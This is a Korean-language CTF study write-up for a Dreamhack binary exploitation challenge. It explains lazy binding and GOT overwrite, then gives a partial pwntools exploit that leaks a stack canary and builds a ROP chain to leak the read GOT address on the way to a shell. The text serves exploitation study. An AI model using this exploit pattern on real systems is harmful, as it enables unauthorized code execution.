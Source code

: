 <img width="735" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/2ae1e208-565e-4fb1-904d-d925cb5d036a">

우리는 해당 문제에서 `buf`에 직접 `/bin/sh` 문자열을 주입할 수 있기 때문에 전자의 방법을 사용하겠다.

<br>

## 4. GOT Overwrite

`system` 함수와 "/bin/sh" 문자열의 주소를 알고 있으므로, 지난 코스에서처럼 `pop rdi; ret` 가젯을 활용하여 `system(“/bin/sh”)`를 호출할 수 있다. 

그러나 `system` 함수의 주소를 알았을 때는 이미 ROP 페이로드가 전송된 이후이므로, 알아낸 `system` 함수의 주소를 페이로드에 사용하려면 `main`함수로 돌아가서 다시 버퍼 오버플로우를 일으켜야 한다. 이러한 공격 패턴을 `ret2main`이라고 부르는데, 이 코스에서는 GOT Overwrite 기법을 통해 한 번에 셸을 획득할 것이다.

**Background: Library - Dynamic Link VS. Static Link** 코스에서 ***Lazy binding***에 대해 배운 내용을 정리해보면 다음과 같다.

1. 호출할 라이브러리 함수의 주소를 프로세스에 매핑된 라이브러리에서 찾는다.

2. 찾은 주소를 GOT에 적고, 이를 호출한다.

3. **해당 함수를 다시 호출할 경우, GOT에 적힌 주소를 그대로 참조한다.**

위 과정에서 GOT Overwrite에 이용되는 부분은 3번이다. GOT에 적힌 주소를 검증하지 않고 참조하므로 GOT에 적힌 주소를 변조할 수 있다면, 해당 함수가 재호출될 때 공격자가 원하는 코드가 실행되게 할 수 있다.

알아낸 `system` 함수의 주소를 어떤 함수의 GOT에 쓰고, 그 함수를 **재호출하도록** ROP 체인을 구성하면 될 것이다.

<br>

## Exploit

```py
from pwn import *

context.arch = "amd64"
p = remote('host3.dreamhack.games', 15132)

e = ELF('./rop')
libc = ELF('./libc.so.6')

# Leak canary

payload = b'a'*0x38
p.sendafter(b'Buf: ', payload+b'a')
p.recvuntil(payload + b'a')
canary = b'\x00' + p.recvn(7)

# Exploit

read_plt = e.plt['read']       # read_plt = e.symbols['read']와 같음
read_got = e.got['read']       # 여기서는 got 주소만 알 수 있고 got 주소 안의 내용은 알 수 없음
write_plt = e.plt['write']
read_system_offset = libc.symbols['read'] - libc.symbols['system'] # symbols는 offset과 같음

pop_rdi = 0x0000000000400853
pop_rsi_r15 = 0x0000000000400851
ret = 0x0000000000400854

payload += canary + b'a'*0x8
payload += p64(ret)            # movaps 때문에 stack을 0x10 단위로 맞추기 위해 삽입

# write(1, read_got, ...)

payload += p64(pop_rdi) + p64(0x1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0x0)
payload += p64(write_plt)
```